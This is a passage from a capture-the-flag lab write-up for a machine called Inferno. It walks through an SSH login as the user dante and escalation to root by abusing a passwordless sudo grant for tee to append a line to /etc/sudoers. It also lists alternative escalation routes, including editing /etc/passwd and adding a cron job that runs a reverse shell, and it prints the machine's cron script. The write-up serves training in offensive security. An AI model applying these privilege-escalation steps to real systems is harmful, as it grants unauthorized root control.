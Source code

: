 We can use the discovered credentials to connect as dante over ssh. The user flag is at `/home/dante/local.txt`.

## 5. Privesc, dante -> root - tee, GTFObins

The bash killer is still active on the system, so after connecting as dante we again switch to an `sh` shell. Running `sudo -l` as the dante user shows that they can run `/usr/bin/tee` as root : 

```console
$ sudo -l
User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
```

This effectively gives us [root-level write access to the system](https://gtfobins.github.io/gtfobins/tee/), opening up a number of privesc options : 

* Writing a modified version of `/etc/passwd` or `/etc/shadow`, changing the root password or the dante user UID/GID, or adding a new user with UID/GID of 0
* Appending a cronjob to `/etc/crontab` that runs an arbitrary script as root (executing a reverse shell, copying a bash SUID binary to `/tmp`, etc.)  
* Appending an entry to `/etc/sudoers` that allows the dante user to run any command as root.

In an effort to keep things as simple as possible, we'll go for the final option, using the `-a` flag to append a line to `/etc/sudoers` :

```console
$ echo "dante ALL=(ALL) NOPASSWD: ALL" | sudo /usr/bin/tee -a /etc/sudoers
dante ALL=(ALL) NOPASSWD: ALL
```

Running `sudo -l` again, we can see the new entry for dante : 

```console
$ sudo -l
User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
    (ALL) NOPASSWD: ALL
```

that allows us to privesc to root : 

```console
$ sudo su
root@Inferno:/home/dante# id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is at `/root/proof.txt`. But the bash killer is still active! So let's switch to `sh` again, and look at root's crontab : 

```console
# crontab -l
* * * * * sh /var/www/html/machine_services1320.sh
```

Cron is running the `machine_services1320.sh` script as root every minute. Catting the script we find the call to `pskill bash` that is killing our bash sessions, as well as a long chain of nc listeners that we saw in our initial nmap scan : 

```console
# cat /var/www/html/machine_services1320.sh
pkill bash &
nc -nvlp 21 &
nc -nvlp 23 &
nc -nvlp 25 &
....snip...
```
